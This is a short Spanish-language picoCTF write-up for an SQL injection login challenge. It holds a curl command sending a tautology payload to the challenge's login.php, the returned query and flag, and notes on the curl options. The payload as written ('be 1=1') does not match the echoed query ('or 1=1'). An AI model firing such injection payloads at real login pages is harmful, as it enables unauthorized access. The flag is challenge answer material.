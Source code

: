## Descripción 
```
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```bash
porti_04@DESKTOP-8HT902T:~$ curl -s https://jupiter.challenges.picoctf.org/problem/40742/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>porti_04@DESKTOP-8HT902T:~$

flag: picoCTF{3v3n_m0r3_SQL_4424e7af}

```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales
El comando `curl` es una herramienta de línea de comandos utilizada para transferir datos mediante URLs. En este caso:

- `-s`: Significa "silent mode", que evita que `curl` muestre mensajes de progreso u errores.
- `https://jupiter.challenges.picoctf.org/problem/40742/login.php`: Es la URL a la que `curl` hace la solicitud.
- `-d "password=' be 1=1;&debug=1"`: Especifica los datos a enviar mediante POST. En este caso, envía dos parámetros: `password=' be 1=1;` y `debug=1`.

El parámetro `password` parece estar diseñado para una inyección SQL, donde `1=1` es una condición siempre verdadera que podría permitir el acceso no autorizado al sistema si la aplicación no está protegida adecuadamente contra este tipo de ataques.
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias